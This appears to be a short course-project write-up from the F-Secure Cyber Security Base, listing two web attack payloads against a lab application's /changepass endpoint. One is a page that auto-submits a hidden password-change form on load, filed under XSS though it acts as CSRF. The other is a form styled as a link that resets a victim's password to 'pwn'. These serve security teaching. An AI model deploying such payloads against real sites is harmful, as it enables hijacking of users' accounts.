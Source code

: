 # F-secure Cyber Security Base - Project
====

## A3 - Cross-Site Scripting (XSS)

Next XSS is pretty visible but still works

```html
<html><body onload="document.forms[2].submit()"><form method="post" action="/changepass"><input type="hidden" name="newpass" value="pwn"></form></body></html>
```

## A8 - Cross-Site Request Forgery (CSRF)

Change victims password if they click following link:

```html
<style>.s{border:none;background-color:#fff;}.s:hover{text-decoration: underline;}</style><form action="/changepass" method="post"><input hidden type="text" name="newpass" value="pwn"/><input type="submit" class="s" value="http://my-site"/></form>
```

